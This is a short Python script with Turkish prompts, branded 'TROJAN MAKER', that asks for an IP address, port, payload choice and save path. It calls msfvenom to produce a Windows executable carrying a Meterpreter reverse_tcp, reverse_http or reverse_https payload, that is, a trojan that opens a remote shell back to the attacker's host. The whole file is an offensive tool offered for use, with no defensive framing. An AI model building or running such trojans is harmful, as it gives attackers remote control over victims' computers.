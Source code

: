 #!/usr/bin/env python

import os

os.system("apt-get install figlet")
os.system("clear")
os.system("figlet BHECY")
os.system("figlet TROJAN MAKER")

print("""

Trojan oluşturma Aracına Hoş Geldin...

""")

ip=input("Lokal ya da Dış ip giriniz : ")
port=input("portunu gir : ")

print("""

1) windows/meterpreter/reverse_tcp
2) windows/meterpreter/reverse_http
3) windows/meterpreter/reverse_https

""")

payload= input("Payload numarası giriniz : ")
kayityeri=input("Trojan kayıt konumunu yazınız : ")

if payload=="1":
	os.system("msfvenom -p windows/meterpreter/reverse_tcp LHOST="+ip+" LPORT"+port+" -f exe -o "+kayityeri)
	
elif payload=="2":
	os.system("msfvenom -p windows/meterpreter/reverse_http LHOST="+ip+" LPORT"+port+" -f exe -o "+kayityeri)

elif payload=="3":
	os.system("msfvenom -p windows/meterpreter/reverse_https LHOST="+ip+" LPORT"+port+" -f exe -o "+kayityeri)


